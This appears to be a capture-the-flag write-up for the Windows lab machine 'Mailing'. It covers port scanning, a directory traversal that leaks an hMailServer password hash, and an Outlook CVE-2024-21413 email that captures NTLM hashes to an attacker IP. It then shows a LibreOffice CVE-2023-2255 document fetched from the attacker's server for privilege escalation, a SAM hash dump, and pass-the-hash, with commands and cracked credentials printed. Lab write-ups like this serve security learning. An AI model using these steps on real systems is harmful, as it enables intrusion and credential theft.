

<div style="display: flex; align-items: center;">
  
  <div>
    <p style="font-size:35px;"><b>Mailing</b></p>
    <p style="font-size:20px;">Windows • <font color="#8ac73e">Easy</font></p>
  </div>
</div>

## Nmap - Directory Busting

We have the machine IP.\
Through an nmap scan we see the following:
```bash
$ nmap -p- -sV -sC -T4 10.10.11.14
.Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-14 06:14 EDT
Stats: 0:00:00 elapsed; 0 hosts completed (0 up), 0 undergoing Script Pre-Scan
NSE Timing: About 0.00% done
Nmap scan report for 10.10.11.14
Host is up (0.074s latency).
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
25/tcp    open  smtp          hMailServer smtpd
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: Did not follow redirect to http://mailing.htb
|_http-server-header: Microsoft-IIS/10.0
110/tcp   open  pop3          hMailServer pop3d
|_pop3-capabilities: USER UIDL TOP
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
143/tcp   open  imap          hMailServer imapd
|_imap-capabilities: IDLE ACL NAMESPACE OK IMAP4 SORT QUOTA completed CAPABILITY RIGHTS=texkA0001 CHILDREN IMAP4rev1
445/tcp   open  microsoft-ds?
465/tcp   open  ssl/smtp      hMailServer smtpd
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
587/tcp   open  smtp          hMailServer smtpd
| smtp-commands: mailing.htb, SIZE 20480000, STARTTLS, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
993/tcp   open  ssl/imap      hMailServer imapd
|_ssl-date: TLS randomness does not represent time
|_imap-capabilities: IDLE ACL NAMESPACE OK IMAP4 SORT QUOTA completed CAPABILITY RIGHTS=texkA0001 CHILDREN IMAP4rev1
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
5040/tcp  open  unknown
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7680/tcp  open  pando-pub?
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
54457/tcp open  msrpc         Microsoft Windows RPC
64471/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: mailing.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-06-14T10:21:26
|_  start_date: N/A
|_clock-skew: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 453.98 seconds
```

We will also try some (sub)directory fuzzing.
```bash
$ gobuster dir -u http://mailing.htb/ -w /usr/share/wordlists/dirb/big.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://mailing.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 160] [--> http://mailing.htb/assets/]
/instructions         (Status: 301) [Size: 166] [--> http://mailing.htb/instructions/]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

We see it is mailing server based on `hMailServer`.

## Directory traversal 

We also find `/download.php?file=instructions.pdf`, which seems to be vulnerable to directory traversal.

Online, we find `C:\Program Files (x86)\hMailServer\Bin\hMailServer.INI` which may have some useful information (`/../../Program+Files+(x86)\hMailServer\Bin\hMailServer.INI`):


We find the Admin Password `841bb5acfa6779ae432fd7a4e6600ba7`.\
On `hMailServer`'s site we find that the admin password in this file is hashed using MD5, we can try to crack it:
```bash
$ hashcat -m 0 -a 0 md5.txt /usr/share/wordlists/rockyou.txt
...
841bb5acfa6779ae432fd7a4e6600ba7:homenetworkingadministrator
...
```

## Email exploit

I tried finding some users on the mailing server, but it didn't end up being too useful, since there is already an email mentioned in the `instrustions.pdf`.
```bash
$ smtp-user-enum -M RCPT -U /usr/share/seclists/Usernames/Names/names.txt -D mailing.htb -t 10.10.11.14
``` 

We will connect to the mailing server as administrator following the `instrustions.pdf`.

Searching online, I found `CVE-2024-21413` which might be helpful.\
We will be using [xaitax's exploit](https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability):

First we will monitor traffic on the interface:
```bash
$ sudo responder -I tun0
```
Then we will send the exploit to `maya@mailing.htb`:
```bash
$ python CVE-2024-21413.py --server "mailing.htb" --port 587 --username "administrator@mailing.htb" --password "homenetworkingadministrator" --sender "administrator@mailing.htb" --recipient "maya@mailing.htb" --url "\\10.10.14.92\test\meeting" --subject "Testing"

CVE-2024-21413 | Microsoft Outlook Remote Code Execution Vulnerability PoC.
Alexander Hagenah / @xaitax / ah@primepage.de                                                                                         

✅ Email sent successfully.
```

After a while, we capture this:
```bash
[SMB] NTLMv2-SSP Client   : 10.10.11.14
[SMB] NTLMv2-SSP Username : MAILING\maya
[SMB] NTLMv2-SSP Hash     : maya::MAILING:b00fc80d946def8f:E77269C3AC20AA953F984F878CC38AAE:0101000000000000005522E44FBEDA01AAC7E78C4C176D810000000002000800460048004700320001001E00570049004E002D004B0043004D0038004D0055003600390032003200300004003400570049004E002D004B0043004D0038004D005500360039003200320030002E0046004800470032002E004C004F00430041004C000300140046004800470032002E004C004F00430041004C000500140046004800470032002E004C004F00430041004C0007000800005522E44FBEDA0106000400020000000800300030000000000000000000000000200000C2CD3EDB1D3B3526E37EA9EB14127A782EE44699DE274EE7976F484566D0AF4D0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00390032000000000000000000
```

We will try to crack the hash:
```bash
$ hashcat -m 5600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
...
MAYA::MAILING:b00fc80d946def8f:e77269c3ac20aa953f984f878cc38aae:0101000000000000005522e44fbeda01aac7e78c4c176d810000000002000800460048004700320001001e00570049004e002d004b0043004d0038004d0055003600390032003200300004003400570049004e002d004b0043004d0038004d005500360039003200320030002e0046004800470032002e004c004f00430041004c000300140046004800470032002e004c004f00430041004c000500140046004800470032002e004c004f00430041004c0007000800005522e44fbeda0106000400020000000800300030000000000000000000000000200000c2cd3edb1d3b3526e37ea9eb14127a782ee44699de274ee7976f484566d0af4d0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00390032000000000000000000:m4y4ngs4ri
...
```

## Get Remote Access

Searching online we find that `Windows Remote Management (WinRM)` is highlighted as a protocol by Microsoft that enables the remote management of Windows systems through HTTP(S), and tends to be found on ports `5985`/`5986`.\
Looking at our earlier nmap scan, we find that port `5985` is open, so we will try to access powershell through it.

```bash
$ evil-winrm  -i mailing.htb -u maya -p 'm4y4ngs4ri'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                           
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                                             
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\maya\Documents> whoami
mailing\maya
```

We find the user flag on maya's Desktop.

Looking around we find:
* `Python 3.12.2`
* `LibreOffice 7.4`

From that we find `CVE-2023-2255`:
> Improper access control in editor components of The Document Foundation LibreOffice allowed an attacker to craft a document that would cause external links to be loaded without prompt.[...]The Document Foundation LibreOffice 7.4 versions prior to 7.4.7; 7.5 versions prior to 7.5.3.

I tried using [elweth-sec's exploit](https://github.com/elweth-sec/CVE-2023-2255) using openssl, getting access to powershell and sending it by email, but I couldn't get it to work...\
So I tried passing it through the network with a command to turn `maya` into an admin.

```bash
$ python3 CVE-2023-2255.py --cmd '"Add-LocalGroupMember -Group "Administrators" -Member "maya"' --output 'exploit.odt'  
File exploit.odt has been created !
$ sudo python3 -m http.server 80
```
```powershell
*Evil-WinRM* PS C:\Important Documents> curl -o exploit.odt http://10.10.14.92/exploit.odt
*Evil-WinRM* PS C:\Important Documents> net users maya
User name                    maya
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2024-04-12 4:16:20 AM
Password expires             Never
Password changeable          2024-04-12 4:16:20 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   2024-06-14 8:10:56 PM

Logon hours allowed          All

Local Group Memberships      *Administradores      *Remote Management Use
                             *Usuarios             *Usuarios de escritori
Global Group memberships     *Ninguno
The command completed successfully.
```

We are now an admin.\
Couldn't find much more in different directories, but we 

```bash
$ crackmapexec smb mailing.htb -u maya -p "m4y4ngs4ri" --sam
SMB         mailing.htb     445    MAILING          [*] Windows 10 / Server 2019 Build 19041 x64 (name:MAILING) (domain:MAILING) (signing:False) (SMBv1:False)
SMB         mailing.htb     445    MAILING          [+] MAILING\maya:m4y4ngs4ri (Pwn3d!)
SMB         mailing.htb     445    MAILING          [+] Dumping SAM hashes
SMB         mailing.htb     445    MAILING          Administrador:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         mailing.htb     445    MAILING          Invitado:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         mailing.htb     445    MAILING          DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         mailing.htb     445    MAILING          WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:e349e2966c623fcb0a254e866a9a7e4c:::
SMB         mailing.htb     445    MAILING          localadmin:1001:aad3b435b51404eeaad3b435b51404ee:9aa582783780d1546d62f2d102daefae:::
SMB         mailing.htb     445    MAILING          maya:1002:aad3b435b51404eeaad3b435b51404ee:af760798079bf7a3d80253126d3d28af:::
SMB         mailing.htb     445    MAILING          [+] Added 6 SAM hashes to the database
```

Couldn't seem to crack `localadmin`'s password after a few tries with different wordlists. However, looking online, we could perform a [Pass-the-Hash attack](https://www.stationx.net/pass-the-hash-attack/#passing-the-hash).

```bash
$ evil-winrm -i mailing.htb -u localadmin -H 9aa582783780d1546d62f2d102daefae
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\localadmin\Documents>
```

Now we can *finally* get the root flag on `localadmin`'s Desktop.
